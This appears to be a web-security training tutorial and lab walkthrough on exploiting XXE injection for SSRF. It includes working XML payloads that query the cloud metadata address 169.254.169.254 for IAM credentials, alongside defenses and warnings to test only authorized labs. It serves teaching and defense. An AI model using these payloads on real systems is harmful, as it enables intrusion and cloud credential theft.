





# Exploiting XXE to perform SSRF attacks

XXE can become server-side request forgery (SSRF) when the external entity points to a network URL instead of a local file. The request is made by the vulnerable server, so it may reach internal services that are not accessible from the tester's browser.

## Basic network entity

```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://internal.example/">
]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

If the application reflects the entity value, the response may contain the internal service's response. If it does not, the request can still cause an observable side effect or be confirmed through an authorized listener.

## Cloud metadata example

The source lab uses the link-local EC2 metadata address:

```text
http://169.254.169.254/
```

A controlled lab probe can begin with:

```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://169.254.169.254/">
]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

If the response exposes a directory listing, follow the paths returned by the lab rather than guessing. A typical legacy metadata traversal is:

```text
/latest/meta-data/
/latest/meta-data/iam/security-credentials/
/latest/meta-data/iam/security-credentials/ROLE_NAME
```

The final path may return temporary credential material in the lab. Do not test cloud metadata endpoints outside an explicitly authorized environment.

## Two-way versus blind SSRF

- **Two-way SSRF:** The internal response is inserted into the application's response.
- **Blind SSRF:** The server makes the request but hides the response. Look for timing, state changes, DNS/HTTP callbacks, or other lab-defined evidence.

## Impact

XXE-powered SSRF can enable internal reconnaissance, access to admin interfaces, interaction with internal APIs, cloud metadata exposure, and chained attacks against services that trust internal traffic.

## Parser and protocol limits

The parser may restrict schemes, redirects, authentication, or response size. `http://`, `https://`, `file://`, and other schemes are parser-specific; never assume that a scheme is accepted without testing in an authorized lab.

## Defenses

Disable external entity resolution first. Also apply egress filtering, isolate metadata services, require modern metadata protections, and avoid exposing internal response bodies to users.

---

## Lab walkthrough: Exploiting XXE to perform SSRF attacks

The stock-check feature parses XML and reflects unexpected values. The lab exposes a simulated EC2 metadata service at `http://169.254.169.254/`. The objective is to use XXE-powered SSRF to obtain the simulated instance's IAM secret access key.

### 1. Establish the stock-check flow

Open a product, use **Check stock**, and capture the request in Burp Repeater.





### 2. Probe the metadata root

Replace the entity target with the metadata address:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://169.254.169.254/">
]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

The request is made by the lab server, not by your browser. If the result is reflected, the response reveals the next metadata path.



### 3. Follow the metadata paths

Use the returned directory names to build the next entity URL. A typical path sequence is:

```text
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
```

For example, the final request body becomes:

```xml
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME">
]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

Replace `ROLE_NAME` with the role returned by the preceding request. Do not hard-code a role name unless the lab response provides it.



### 4. Confirm the simulated credentials

The final response contains the lab's simulated IAM material, including the secret access key. The important observation is that the application server fetched a link-local resource that was not directly available to the client.



### Why the attack works

The XML parser is allowed to resolve an HTTP external entity. Because the resolver runs in the server's network context, it can reach the metadata address and return the result through the vulnerable application.

!!! warning "Cloud safety"
    Never probe `169.254.169.254` or cloud credentials on infrastructure without explicit authorization. Use the supplied lab only.
